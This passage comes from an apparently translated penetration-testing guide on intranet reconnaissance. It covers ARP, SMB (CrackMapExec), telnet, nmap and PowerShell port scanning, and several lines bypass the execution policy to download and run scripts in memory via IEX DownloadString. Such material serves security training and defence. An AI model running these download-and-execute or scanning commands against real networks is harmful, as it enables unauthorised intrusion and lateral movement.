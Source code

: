 ```powershell
set-ExecutionPolicy RemoteSigned
Import-Module .\Invoke-ARPScan.ps1
Invoke-ARPScan -CIDR 10.10.10.0/24

powershell.exe -exec bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/Invoke-ARPScan.ps1');Invoke-ARPScan -CIDR 10.10.10.0/24"
```

![Untitled](%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e8733b02d1614977972a074a690afd8e/Untitled%203.png)

### Discovering a surviving host based on SMB (Server Message Block) protocol

`SMB`, also known as the `Common Internet File System`, `CIFS`, is an application-layer transmission protocol. Its main function is to enable machines on the network to share computer files, printers, serial ports, and communication resources. CIFS messages are generally sent using `NetBIOS` or `TCP`, using ports `139` and `445` respectively, and currently tend to use `445` ports.

In actual use, the SMB service present in the local area network can be detected, thereby discovering the surviving hosts of the intranet, which are mostly suitable for the discovery of `Windows` hosts. Download the tool using: [https://github.com/maaaaz/CrackMapExecWin](https://github.com/maaaaz/CrackMapExecWin).

```powershell
crackmapexec.exe 10.10.10.0/24
```

![Untitled](%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e8733b02d1614977972a074a690afd8e/Untitled%204.png)

## Intranet port scanning

### Use Telnet to detect ports

```powershell
telnet <IP> <PORT>
```

### Use Nmap for port scanning

```powershell
nmap -p <PORT> <IP>
nmap -sS -p 1-65535 <IP>
nmap -sC -sV -p <PORT> <IP>
```

### Use PowerShell to scan ports

```powershell
powershell.exe -exec bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/Invoke-PortScan.ps1');Invoke-PortScan -StartAddress 10.10.10.0 -EndAddress 10.10.10.254 -ResolveHost -ScanPort"
 
powershell.exe -exec bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/Invoke-PortScan.ps1');Invoke-PortScan -StartAddress 10.10.10.0 -EndAddress 10.10.10.254 -ResolveHost -ScanPort -Port 80,88,135,139,443,445,3306,3389,8080"
```
